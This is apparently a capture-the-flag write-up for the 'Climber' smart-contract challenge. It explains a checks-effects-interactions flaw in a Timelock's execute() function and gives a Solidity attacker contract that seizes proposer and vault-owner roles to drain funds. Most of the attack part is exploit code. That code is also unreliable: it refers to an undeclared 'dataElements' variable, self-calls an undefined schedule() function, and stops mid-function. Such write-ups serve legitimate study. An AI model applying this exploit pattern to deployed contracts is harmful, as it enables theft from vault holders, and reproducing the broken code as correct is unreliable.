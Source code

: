 
In this challenge, our goal is to empty the vault. We must to know about UUPS upgrade concept to solve this challenge. Firstly, the vulnerability is found in `Timelock` contract. The `execute()` function does not follows Checks Effects Interactions pattern.

```solidity
    // lines in execute()
    for (uint8 i = 0; i < targets.length; i++) {
        targets[i].functionCallWithValue(dataElements[i], values[i]);
    }
    
    require(getOperationState(id) == OperationState.ReadyForExecution);
```

This code allows us to make a schedule for execution before require statement, which means we can call `execute()` function first, and then add schedule that matches `operationId`. Also, during execution, we can call any function we want with address of __timelock contract__. To go through the require statement, first we need to call `updateDelay()` function with parameter `0`. Then set the attack contract to have proposer role, and call `transferOwnership()` to set the vault owner to be attack contract. Lastly, call `schedule()` function. Here is the attack contract.

```solidity

contract ClimberAttacker {

    address payable public climberTimelock;
    address payable public climberVault;
    address public token;

    address[] public targets;
    uint256[] public values;
    bytes[] public data;

    bytes32 public constant ADMIN_ROLE = keccak256("ADMIN_ROLE");
    bytes32 public constant PROPOSER_ROLE = keccak256("PROPOSER_ROLE");

    constructor(address payable _climberTimelock, address payable _climberVault, address _token){
        token = _token;
        climberTimelock = _climberTimelock;
        climberVault = _climberVault;
    }

    function attack() public {

        targets.push(climberTimelock);
        values.push(0);
        data.push((abi.encodeWithSignature("updateDelay(uint64)", uint64(0))));

        targets.push(climberTimelock);
        values.push(0);
        data.push(abi.encodeWithSignature("grantRole(bytes32,address)", keccak256("PROPOSER_ROLE"), address(this)));

        targets.push(climberVault);
        values.push(0);
        data.push(abi.encodeWithSignature("transferOwnership(address)", address(this)));
        
        targets.push(address(this));
        values.push(0);
        data.push(abi.encodeWithSignature("schedule()"));

        
        (bool success, ) = climberTimelock.call(
            abi.encodeWithSignature("execute(address[],uint256[],bytes[],bytes32)", targets, values, dataElements, bytes32(0))
        );
```